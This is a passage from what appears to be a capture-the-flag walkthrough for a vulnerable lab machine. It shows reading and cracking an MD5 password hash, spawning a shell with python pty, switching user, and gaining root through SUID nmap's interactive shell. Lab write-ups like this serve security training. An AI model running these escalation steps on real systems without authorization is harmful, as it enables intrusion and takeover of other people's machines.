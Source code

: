 lets see the current home directory...

`cd /home;ls`

There is a robot folder in there  

`cd robot;ls `

there is a key file and a password.raw-md5 file in there, we appearantly don't have permission to view the key file but we can cat the password file.

```
cat password.raw-MD5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's decrypt the md5 password with a decryptor of your choice.

 `c3fcd3d76192e4007dfb496cca67e13b : abcdefghijklmnopqrstuvwxyz`


Now we need to spawn bash using `python -c 'import pty; pty.spawn("/bin/sh")' `

and now we can use `su robot ` to change to the robot user and get the second flag.  

We are now able to read the second flag!

----


## Root escalation

This is a bit tricky, I did not find anything to exploit on this system...

Let's see what is owned by root by using `find / -user root -perm -4000 2>/dev/null` this command will show all files owned by root, that we can access too.
I see `nmap` is amongst the programs.


after doing some research I found this [blog](https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/) and [blog](https://pentestlab.blog/2017/09/25/suid-executables/)

appearantly nmap has an --interactive mode  which spawns a shell and we can use this shell to escalate ourselves to Root

`nmap --interactive`
`!sh`

and yes, we can now run root commands
